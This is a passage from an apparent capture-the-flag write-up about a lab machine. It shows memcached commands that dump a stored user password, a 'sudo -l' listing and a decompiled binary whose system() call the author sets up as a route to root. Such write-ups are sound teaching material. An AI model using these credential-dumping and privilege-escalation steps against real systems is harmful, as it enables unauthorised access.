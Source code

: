 ```
END
get password
get password
VALUE password 0 15
{Orka's password}
END
```

To explain the above,
stats items: allows us to see everything in the cache
stats cachedump 1 0: will dump everything with slab id 1
get {ITEM}: read the item we wish to see
with the above we presumably have credentials for the Orka user so lets switch over

# Orka
We find the user flag in Orka's home directory, and the following
```
sudo -l

Matching Defaults entries for Orka on osboxes:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin
Orka@osboxes:~$
```

We import the binary to our local machine and analyze it with ghidra. We find the password in plaintext to allow us to use the binary and then explore what it is doing. 
    else {
      sprintf(local_78,"python /home/Orka/Desktop/transfer.py %c",(int)local_88);
      system(local_78);
    }
The following part of the binary has it use call python directly and run the transfer.py file so lets see if we can exploit something here
```
cat transfer.py
import time
import socket
import sys
import os

result = sys.argv[1]

print "Saving " + result + " BitCoin(s) For Later Use "

test = raw_input("Do you want to make a transfer? Y/N : ")

if test == "Y":
        try:
                print "Transfering " + result + " BitCoin(s) "
                s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                connect = s.connect(("127.0.0.1",3010))
                s.send("Transfer : " + result + "To https://transfer.bitcoins.com")
                time.sleep(2.5)
                print ("Transfer Completed Successfully...")
                time.sleep(1)
                s.close()
        except:
                print("Error!")
else:
        print("Quitting...")
```